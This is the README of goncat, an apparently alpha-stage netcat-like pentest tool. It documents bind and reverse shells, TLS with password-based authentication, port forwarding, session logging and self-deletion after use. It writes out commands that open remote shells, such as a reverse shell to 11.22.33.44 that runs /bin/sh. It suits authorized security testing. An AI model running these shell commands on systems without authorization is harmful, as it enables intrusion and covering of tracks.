 # goncat

goncat is a netcat-like tool you can use to create bind or reverse shells,
but designed to give you a more SSH-like experience.
It contains a few extra features that I missed from netcat.
First, goncat supports encryption with mutual authentication
so you don't have to write on one page of your pentest report that administrative access to servers without encryption or authentication is a problem
while writing on the next page how you did exactly that.
Second, it has automatic cross-platform PTY support for your convenience. 
Third, it can be used for tunneling.
For now it supports local and remote port forwarding.
Lastly, there are a few other convenience features such as session logging 
and automatic cleanup.

Disclaimer: please treat this tool as alpha. It is work an progress and may very well be turned upside down.

## Install

Clone this repository and run `make build` to build binaries for Linux, Windows and MacOS.
Downloads may be available in the [release section](https://github.com/DominicBreuker/goncat/releases)
once this tool is out of alpha and the interface is stable.

## Getting started

Akin to netcat, goncat allows to bind a socket or can be used to connect to one.
As with SSH, there is also a master and a slave side of the connection.
The master specifies the parameters for a connection, and the slave operates accordingly.
But master and slave behaviour is not tied to the client and server sides of the connection.
You can turn either side into whatever you want.
There is only one binary combining all features and it works cross-platform.

A few examples to illustrate basic use, which all assume a goncat binary exists on both your own machine and a remote one:
- Reverse shell
  - On your machine: `goncat master listen --port 12345 --exec /bin/sh` to create a listener on port 12345 that will instruct the other end to execute `/bin/sh`.
  - Remote: `goncat slave connect --host 11.22.33.44 --port 12345` to connect the remote side as a slave, which will execute `/bin/sh`.
- Bind shell
  - Remote: `goncat slave listen --port 12345` to listen in port 12345 for connections. The listener will do whatever a connecting master asks it to.
  - On your machine: `goncat master connect --host 55.66.77.88 --port 12345 --exec /bin/sh` to connect to the remote host and make it execute `/bin/sh`.

Advanced features can be enabled with additional flags:
- Encryption: add `--ssl` on both ends to enable TLS
- Authentication: add `--key mypassword` on both ends to ensure no unexpected clients can connect (requires `--ssl`)
- PTY: as master, add `--pty` to get a fully interactive shell (make sure you also execute a shell with `--exec`)
- Local port forwarding: as master, add `-L 8443:google.com:443` to open a local port 8443 on the master side, any connection to it will
  be forwarded through the slave to `google.com:443`
- Remote port forwarding: as master, add `-R 8443:google.com:443` to open a local port 8443 on the slave side, any connection to it will
  be forwarded through the master to `google.com:443`
- Logging: as master, add `--log /tmp/log.txt` to log the session to a file
- Cleanup: as slave, add `--clean` to make goncat delete itself after execution

## A few Details

Encryption and authentication is implemented with (mutual) TLS.
To save you the hassle of generating certificates, goncat does that for you.
If you only enable `--ssl` you get encryption only. 
The server side generates a new certificate on each run of `goncat ... listen`.
The client will accept any certificate without validation.
If you additionally enable `--key mypassword` then your password will be used as a seed
for the RNG used for certificate generation.
Both client and server generate and validate the certificates (but ignoring host name of course).

Logging is implemented in a simple way.
We just store all bytes send over the "main channel" to a file.
Main channel refers to that you saw on the screen when using goncat,
ignoring other data such as control messages required to sync master terminal size over to the slave when enabling PTY.
However, bear in mind that the log still looks a bit strange with PTY enabled.
I may find a better way in the future.

Lastly, a few notes on the cleanup feature.
I don't like it when leftover files fly around when you are done with a machine.
It is all too easy to forget deleting them.
Thus you can tell the slave side to `--clean` up after itself.
goncat will then attempt to delete itself before it terminates.
This works well on many Linux machines, where you can just delete your own binary.
On Windows things are a bit tricky. 
At the moment, goncat launches a seperate CMD-based job to delete the binary 5 seconds after termination.

